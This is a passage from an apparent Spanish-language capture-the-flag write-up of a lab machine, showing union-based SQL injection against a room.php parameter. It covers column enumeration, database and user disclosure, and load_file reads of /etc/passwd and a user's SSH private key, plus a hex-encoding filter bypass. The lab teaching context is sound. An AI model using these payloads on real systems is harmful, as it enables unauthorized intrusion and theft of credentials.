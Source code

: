 Aqui no vemos nada. Intentamos ver con un union select si podemos enumerar las columnas

```bash
http://10.10.10.143/room.php?cod=-1 union select 1,2 -- -
http://10.10.10.143/room.php?cod=-1 union select 1,2,3 -- -
http://10.10.10.143/room.php?cod=-1 union select 1,2,3,4 -- -
http://10.10.10.143/room.php?cod=-1 union select 1,2,3,4,5 -- -
http://10.10.10.143/room.php?cod=-1 union select 1,2,3,4,5,6 -- -
http://10.10.10.143/room.php?cod=-1 union select 1,2,3,4,5,6,7 -- -
```

Cuando acemos una selection de las 7 columnas, podemos ver en la web que nos reporta estas etiquetas en la pagina.



![Jarvis-uio-select](/assets/images/Jarvis-union-select.png) 
Aqui vemos que podemos injectar SQL en las columnas **5 - 2 - 3 - 4**

```bash
http://10.10.10.143/room.php?cod=-1 union select 1,2,database(),4,5,6,7 -- -
http://10.10.10.143/room.php?cod=-1 union select 1,2,version(),4,5,6,7 -- -
http://10.10.10.143/room.php?cod=-1 union select 1,2,user(),4,5,6,7 -- -
http://10.10.10.143/room.php?cod=-1 union select 1,2,load_file("/etc/passwd"),4,5,6,7 -- -
```

> [ ! ] NOTAS: Si la web no deja incorporar String como en el methodo load_file, se puede transformar el String 
```bash
 /etc/passwd 
```
 en hexadecimal y colocarlo ahi. Haciendo
un 
```bash
 echo "/etc/passwd" | tr -d '\n' | xxd -ps 
```
 -> 2f6574632f706173737764 y ponerlo en la web 
```bash
 1,2,load_file(0x2f6574632f706173737764),4,5,6,7 
```


Aqui vemos que tenemos capacidad de lectura sobre ficheros internos passando por la Injeccion SQL. Continuamos

```bash
http://10.10.10.143/room.php?cod=-1 union select 1,2,load_file("/proc/net/tcp"),4,5,6,7 -- -
http://10.10.10.143/room.php?cod=-1 union select 1,2,load_file("/proc/net/fib_trie"),4,5,6,7 -- -
```

Esto no nos reporta nada. Bueno, ya sabemos que existen 2 usuarios en la maquina:

- root 
- pepper

```bash
http://10.10.10.143/room.php?cod=-1 union select 1,2,load_file("/home/pepper/.ssh/id_rsa"),4,5,6,7 -- -
http://10.10.10.143/room.php?cod=-1 union select 1,2,load_file("/home/pepper/user.txt"),4,5,6,7 -- -
```
